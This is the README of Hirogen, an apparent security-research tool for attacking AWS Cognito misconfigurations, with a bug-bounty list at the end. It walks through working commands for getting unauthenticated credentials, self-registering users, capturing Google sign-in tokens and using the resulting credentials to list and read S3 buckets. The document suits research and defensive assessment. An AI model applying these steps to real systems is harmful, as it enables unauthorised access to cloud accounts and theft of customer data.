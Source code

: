 # Hirogen

A federated identity attack tool for AWS Cognito.

## Quick Start:
Check for and recover unauthenticated credentials from Cognito User Pool:

```sh
hirogen get-unauthenticated us-west-2:ff6c3f28-fd22-402e-bee7-78b426522f99

[+] Credentials received. Your new identity is:
{
	...
}
```

Sometimes the Identity pool is set to block unauthenticated credentials
```sh
[*] Identity Pool exists, but unauthenticated credentials are not supported.
```

But that's OK! Check for and perform direct registration to Cognito User Pools:
```sh
hirogen check-clientid 3q47qusd82ot7nivggtl2ri6tf us-west-2_RXeMnFJo3
[+] This clientId allows direct registration!

hirogen register-user me@myema.il mYp@ssw0rd '{"phone":"+155551234567"}'
[+] Registration appears to have been successful. Subscriber: ff6c3f28-fd22-402e-bee7-78b426522f99
[*] You must validate your registration before you can log in. Use 'confirm-user' once you receive your code.
```

This means registration was successful, but that you need to verify your email. Check your email and get your verification code, and pass it to Hirogen:
```sh
hirogen confirm-user 123456
[+] Verification successful. You can now use 'login-user'
```

We'll now login and get creds for our user. Since we're using Cognito User pools, we specify 'cognito_idp' as the provider.
```sh
hirogen login-user ADMIN_SRP_AUTH
[+] Login successful.

hirogen hirogen get-credentials cognito_idp
[+] Credentials received. Your new identity is:
{
	...
}
```

## Support for multiple third-party identity providers

Hirogen can perform **page hollowing** to capture authentication tokens for Google Sign-in and Login with Amazon.

```sh
hirogen login-provider google 950667609206-oetjmj5buch3ekvjjd1mreptnaq3bjjp.apps.googleusercontent.com https://domain-with-google/sign-in.html
```

This pops open a Puppeteer browser window with a Google Sign-in prompt. After signing in, the window will close automatically, and you're ready to get credentials for this identity.

```
[+] Got google token

hirogen get-credentials google
[+] Credentials received. Your new identity is:
{
	...
}
```

## Using recovered credentials

Cool, you've got several ways to get the creds, but what do you do then?

For starters, try a quick permissions audit:
```sh
hirogen test-credentials cognito_idp
[-] ddb_ListTables
[-] ec2_DescribeInstances
[-] ec2_DescribeVPCEndpoints
[-] iam_ListRoles
[-] iam_ListUsers
[+] s3_ArbitaryWrite
[+] s3_ArbitraryListObjects
[+] s3_ArbitraryRead
[+] s3_ListBuckets
```

Looks like we have read, write, listObjects, and listBuckets! Let's inspect it! Using 'hirogen as <provider> <awscli commands...>' to pipe the credentials to the AWS CLI.
```sh
hirogen as cognito_idp s3 ls
2019-02-19 17:15:14 202-backup
2019-04-15 13:39:10 aws-training
2016-09-16 09:24:14 bio.myresume.com
2017-03-18 11:49:54 breakingbad
2017-06-11 20:53:18 callmemaybe
2016-09-15 16:18:41 dayinthelife-prod
2017-10-26 01:51:00 devpipeline-cicd
```

```sh
hirogen as cognito_idp s3 ls 202-backup
                 PRE server-backup/
```

## Bug Bounties & Kudos

* A major manufacturer website exposed customer data: $3,000 paid
* A reputation management company exposed customer data, with writeable CI/CD pipeline and static site assets: Kudos
* A lifestyle and media company front-end Kubernetes cluster was accessible: Kudos
* A restaurant franchise website's static assets were modifiable: Kudos
* A staffing agency exposed applicant resumes: Kudos
* A gaming enthusiast website's static assets and leaderboards were modifiable: Kudos
* A celebrity's personal website allowed read-write to videos in s3: Kudos
* A psychology organization exposed training and example materials to self-registered cognito users: Kudos
* An AWS account belonging to an individual granted AdministratorAccess to self-registered Cognito users: Fixed, unacknowledged
* A clothing designer exposed order and customer information with modifiable CI/CD pipeline assets: Fixed, unacknowledged


Dozens of others have been notified but have not responded.
